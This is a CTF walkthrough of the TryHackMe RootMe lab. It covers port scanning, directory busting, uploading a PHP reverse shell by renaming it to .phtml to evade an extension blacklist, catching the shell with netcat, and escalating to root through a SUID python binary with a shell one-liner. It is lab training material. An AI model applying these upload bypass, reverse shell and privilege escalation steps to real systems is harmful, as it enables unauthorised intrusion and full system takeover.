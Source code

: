 # TryHackMe-RootMe-CTF-Walkthrough-Writeup

This Labs focuses on skills of Enumerating, Hidden Directory Busting, By-passing blacklisted extentions and Priv-Esc.
</br>
<b>Replace <IP<IP>> with IP address of your machine.</b> I used IP i was provided, your machine's IP would be different.
***
## Enumeration
```
nmap -sC -sV <IP>
```
<pre>
nmap -sC -sV 10.10.53.147
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-03 03:08 IST
Nmap scan report for 10.10.53.147
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.13 seconds

</pre>
  
  As we see from `nmap` scan 2 ports are active. Running services `HTTP` and `SSH`.</br>
As HTTP is running, i opened the IP in browser to open website running on it but found nothing interesting.</br>
## Gaining Access
I decided to do directory busting using `gobuster`.

```
gobuster dir -u "http://<IP>" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<pre>
gobuster dir -u "http://10.10.53.147" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.53.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/03 03:18:38 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.53.147/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.53.147/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.53.147/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.53.147/panel/]  
Progress: 24472 / 220561 (11.10%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/04/03 03:25:07 Finished
===============================================================

</pre>

`/panel` was a interesting as we can upload files here(Open in Browser).</br>
```
http://<IP>/panel
```

I tried uploading `php reverse shell` from PentestMonkey (Download this file).
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php</br>

but PHP files( file with ".php" extention) were not permitted.</br>
To <B>bypass</B> this we just have to <b>rename</b> the extention from `.php` to `.phtml`.

Before uploading, Change the IP in this file to your Tun0 IP.
To find your Tun0 IP use command 
```
ip addr | grep tun0 | grep inet
```
Copy your tun0 IP and paste in the file.
<pre>
$ip = '**.*.***.***';  // CHANGE THIS
</pre>

Now open listening port on port mention in $port in the reverse shell file. Remember to use the same port as mentioned in file. By default it is "1234". Use command:
```
nc -lvnp <PORT>
```
Now Upload this `.phtml` file.
Yes!!! We successfully uploaded our reverse shell. Now lets activate it by  visiting `/uploads` in browser as we also saw this directory in gobuster.
```
http://<IP>/uploads
```
Now, We can see our file here, Click on it.</br>
Check your terminal you found <b>remote shell access.</b>

</br>

I ran `ls -la` but did not found user flag. ".sudo_as_admin_successful" was troll file as it was empty.

 To find the `user.txt` i used the `find` command:
  ```
  find / -type f -name user.txt 2> /dev/null
  ```
  
 It is in `/var/www/user.txt`. Read it  using:
  ```
  cat /var/www/user.txt
  ```
  
## Priv-Esc
  
  As it was given we have to find the files with unusual SUID.
  Command was already given:
  ```
  find / -user root -perm /4000
  ```
  I found `/usr/bin/python`unusual in the result as it should not have this permissions. As the path to it is in `/bin`, i knew i have to visit `GTFOBins`.
  https://gtfobins.github.io/gtfobins/python/#suid
  
 As we have to exploit the SUIDs, Copy the command given in SUID section, but we do not need to use entire command, just copy
  ```
  python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
  ```
  and we are <b>Root</b>.</br>
  Now read the Root Flag by using:
  ```
  cat /root/root.txt
  ```
  
  

